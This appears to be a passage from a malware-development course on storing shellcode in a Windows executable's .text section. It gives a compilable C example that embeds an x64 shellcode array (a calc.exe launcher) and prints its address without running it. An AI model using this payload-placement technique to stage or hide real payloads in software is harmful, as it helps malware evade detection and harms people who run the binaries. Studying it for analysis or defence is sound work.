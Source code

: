 ## .text Section

---

### Introduction

The previous module discussed storing payload in the .data nad .rdata section, while this module covers storing payloads in the .text section.

Saving the variables in the .text section differs from saving them in the .data or .rdata sections, as it is not just a matter of declaring a random variable. Rather, one must instruct the compiler to save it in the .text section, which is demonstrated in the code below.

```c
#include <Windows.h>
#include <stdio.h>

#pragma section(".text")
__declspec(allocate(".text")) **const** unsigned char payload[] = {
	"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
"\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
"\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

int main()
{

	printf("[i] Payload Raw data: 0x%p \n", payload);
	printf("[*] Press <Enter> To Quit..");
	getchar();

	return 0;
}
```
